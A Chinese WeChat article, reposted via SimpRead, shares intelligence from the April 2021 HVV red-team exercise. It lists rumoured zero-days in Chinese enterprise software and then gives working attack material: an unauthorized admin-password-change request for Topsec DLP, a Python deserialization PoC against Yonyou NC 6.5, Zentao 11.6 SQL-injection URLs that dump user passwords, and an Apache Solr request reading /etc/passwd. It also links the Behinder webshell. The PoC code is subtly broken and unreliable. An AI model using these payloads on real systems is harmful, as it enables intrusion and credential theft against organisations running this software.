 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/S8K9gFh_bUH6_pfDr32v0g)

**前提：**2021.4.8 HVV | 情报共享 本文被恶意举报并被腾讯删除原文

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamVAYoRUkpBds5Ja5TIOHicbLNW3syeKq147fZDicCeRCVkPLaLMCp1fjw/640?wx_fmt=png)

特地在此重新分享：**关注公众号并发送 “hvv”**  

可获得所有文件下载链接

```
4月8日15时，最新传出WPS-0day利用方式，通过点击触发WPS内置浏览器RCE
4月8日13时，有消息传出天擎存在越权访问漏洞，poc已流出
4月8日13时，致远OA-ajax.do存在任意文件上传漏洞，poc已流出
4月8日12时，有消息传出齐治堡垒机存在命令执行漏洞，poc疑似已流出
4月8日12时，网传深信服EDR存在命令执行漏洞，poc疑似已流出
4月8日12时，网传深信服VPN存在无条件RCE漏洞，poc疑似已流出
4月8日12时，网传jackson存在反序列化漏洞，poc疑似已流出
4月8日12时，网传tomcat存在反序列化命令执行漏洞，poc疑似已流出
4月8日12时，网传泛微OA9前台存在任意文件上传漏洞，poc已流出
4月8日12时，网传泛微OA8前台存在SQL注入，poc已流出
4月8日12时，网传CoreMai存在命令执行漏洞, poc疑似已流出
4月8日12时，网传用友NC6.5版本存在反序列化命令执行漏洞，poc疑似已流出
4月8日12时，网传dubbo存在反序列化命令执行漏洞，poc疑似已流出
4月8日12时，网传weblogic存在反序列化命令执行漏洞，poc疑似已流出
4月8日11时，网曝天擎前台存在sq|注入，poc已流出
4月8日11时，网传和信创天云桌面系统全版本存在命令执行，文件上传，poc已流出
4月8日11时，网传红帆0A任意文件写入漏洞，poc疑似已流出
4月8日11时，网传exchange、 致远、shiro 存在0day漏洞,利用方式疑似已流出
4月8日11时，网传金蝶K3Cloud全版本存在命令执行，poc疑似已流出
4月8日11时，网传用友U8Cloud版本存在命令执行，poc疑似已流出
4月8日11时，网传h3c计算管理平台2016年版存在任意账户添加，poc疑似已流出
4月8日11时，网传启明星辰天清汉马USG防火墙存在逻辑缺陷，poc疑似已流出
4月8日11时，网曝帆软V9存在getshell, poc已流出
4月8日10时，有消息传出天眼存在0day漏洞，poc已流出
4月8日10时，网传默安蜜罐管理平台存在未授权访问漏洞，poc已流出
4月8日8时，网曝Jellyfin低于10.7.1版本存在任意文件读取漏洞，poc已公开
```

### **天融信 dlp - 未授权 + 越权**

管理员登录系统系统之后修改密码，未采用原密码校验，且存在未授权访问导致存在越权修改管理员密码。

  
默认用户 superman 的 uid=1  
POST  /?module-auth_user&action=mod_edit.pwd HTTP/1.1  

**DzzOffice 最新版 RCE(随机数问题)  
**

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamNicfFXxIQrPIDXFNzWsLmOttk9j95IkiaF1x0uzH64LaOB7iaZtWvSicDw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamVCh5iajQbM5zPj8MceVVrzw3AL8Vhhh4fSRhvwxsBUNbHWV5vRoQwoQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam20RTRCt9sldwnpgs9sFSmvIbjzMBz2niclNicicpuibvDR2vZrm7cNqYCg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamp4Y7qic8biaOIicty6PH3o9RVNyWiaxPjOaT64pJBfjrrgHbpicUvO38bgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamQZCcX3ZMvInKRPQSElibNLGxBtrIiaEKjRtn8xAmuibAh7RXqJic5HN97g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamq62KThRfWQZUc4tMemiaPicuJkWTMeJKC5zG3QdqkofLv7gMNBf7s4CQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam8UicBChjCyKfDBibODycS7zjkJQxDGf2QFbpDwuHruqaVzJuCobBaggA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamibTRdu2E03F5HgqOh7wW4iaCwz7565QTvFZp0zxSEUUofzGfqoSGNLsw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam6BmDmTicOPJfoygWnHGib8uSLZx4NdjVqxnCMicxMicNgeMt8RmTbmr2Cg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamy5qKTc4Z552iagDXd53ic5kEdYQNUWCyQia5zYeLdmzPvriaV7ibv0ZzOcA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam2rG5CzHYuJyFh5mhm54EibtoeEGznmOHvBVFjiaOWRYFusxZ4jqCPqJQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamtPW4PFffjUJDxcTW68CicnLyFZd0SutN4ZYYlDb8kJqxjuNkEics98jA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamQNibcDXh76rpI1MqJiaxDLTQN2sRs4O0rsSXdl7B3jEVAUmq6jwib38ew/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamGHficicPkuMoOq8WpkADpmLnlZic41CWSE6y6XEoQhMohIN3HS8fFcAcw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamAwaQpJU7FscZklFticEQib4iaJtTujefAxsAic1e0ibE8msZ2L4DgYYjQzQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiameKiaB0ibKmy4ogIARpKASicw2h2y6Vw7USbefSAKicoI3XyvqeLdYPolUQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamvecic3KrvwZuysPiaFmlUUyA6Z1cE9Dicp7CbCFrJZhqlJg2sIh9yC2ng/640?wx_fmt=png)

**NC 反序列化  
**

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamffIhmgicZs4twgsbicua3CoPCKw72gIicDMxWq3OME79NvSY5whPXzUyg/640?wx_fmt=png)

捕获到攻击队利用用友 nc 反序列利用

目前测试影响版本：nc6.5

漏洞 url 为：

**/service/~xbrl/XbrlPersistenceServlet**

**poc：**

```
import requests
import threadpool
import urllib3
import sys
import base64

ip = ""
dnslog = "\x79\x37\x64\x70\" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"

uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
req = requests.post("http://+"ip"+/service/~xbrl/XbrlPersistenceServlet", headers=uploadHeader, verify=False, data=data, timeout=25)
print (req.text)
```

成功回显  

### **禅道 11.6 sql 注入漏洞**

漏洞 url:  

```
http://xxx.xxx/zentaopms_11.6/www/api-getModel-user-getRealNameAndEmails-users=admin

http://xxx.xxx/zentaopms_11.6/www/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

这里简单说下禅道目前最新版所采用的 pathinfo 模式，首先通过传参确定进入的 control 文件为 api，对应的 method 为 getModel，接着开始对参数进行赋值，其中 moduleName 为 api，methodName=sql，最后的 param 为 sql=select+account,password+from+zt_user，那么调用了 call_user_func_array 函数后，会进入到 api 目录下的 model 文件，对应调用其中的 sql 函数，并通过赋值，将 sql 变量赋值为 select+account,password+from+zt_user，最后执行 query 语句

### **冰蝎已更新 （支持内存马）**

官方地址：https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_7  

### **apache Solr 存在任意文件读取**

访问: http://ip//solr/db/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd  (db 为存在的应用名)